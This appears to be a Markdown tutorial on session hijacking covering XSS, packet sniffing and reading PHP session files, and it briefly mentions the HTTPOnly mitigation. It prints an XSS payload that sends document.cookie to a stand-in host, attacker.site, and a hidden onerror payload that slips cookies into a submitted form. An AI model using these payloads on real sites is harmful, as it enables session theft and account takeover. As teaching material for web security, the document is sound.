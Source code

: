 Session Hijacking refers to the **exploitation of a valid session assigned to a user**. The attacker can get the victim’s session identifier using a few different methods, though typically an XSS is used.

A Session Hijack attack can happen by:

![session hijacking](images/sess-hijacking.png)

<br/>

# Example

The application does not properly sanitize the input in the comment field. So, the attacker can insert the malicious payload here:

![session hijacking example](images/sess-hijacking2.png)

![session hijacking example result](images/sess-hijacking3.png)

By using the following script, we will be able to steal the users cookies.

    <script>
     var i=new Image();
     i.src="http://attacker.site/steal.php?q="%2bdocument.cookie;
    </script>

cookie needs to be accessbile by javascript for this to work, and preventing it solves the problem.(HTTPOnly flag set to true)

<br/>

# Packet sniffing

You can also use wireshark if you are on the same network to sniff the session value.

![packet sniffing](images/packet-sniff.png)

<br/>

# Access the web server

Session data will be stored within the folder specified by the php.ini entry **session.save_path**. The attacker will focus on files names **sess_&lt;sessionID>**

In a real-world example, we could find the following entries:

    sess_ta9i1kqska407387itjfl57624

    sess_7o4l0kk5btl4e4qlok8r26tn12

If you want to hijack the user session related to the first entry,install a new cookie in your web browser using these values:

    cookie name: PHPSESSID
    cookie value: ta9i1kqska407387itjfl57624

The attack is very simple; however, it is critical that the attacker
can access the web server file system.

<br/>

### ASP.NET can store session data in three different locations:

![asp.net session](images/asp.png)

<br/>

# Payloads

    <div style="display: none;"> 
    <img src="fgfdgNotExistent" onerror="document.getElementById('form').onsubmit=function () {
    var hidden='<span style=\'display:none;\'>'+document.cookie+'</span>'; 
    document.getElementById('message').value+=hidden;}"/>
    </div>

![payload-example](images/payload-1.png)

Create a hidden div below the actual message

    <div style="display: none;">

This div will contain the actual payload and is used to hide the image.

Create an image with a non-existent path. This will trigger an error (because the image cannot be found), caught by the onerror event, that contains the actual payload

    <img src="fgfdgNotExistent" onerror=[PAYLOAD]

The payload will simply create a hidden span that will contain the document.cookie object value. This span will be appended to the object with ID being message. This object happens to be the Textarea form element that the victim will have to submit.

once the user submits the form, the cookie will be stored in the hidden span

![payload-example-2](images/payload-2.png)

![payload-example-3](images/payload-3.jpg)
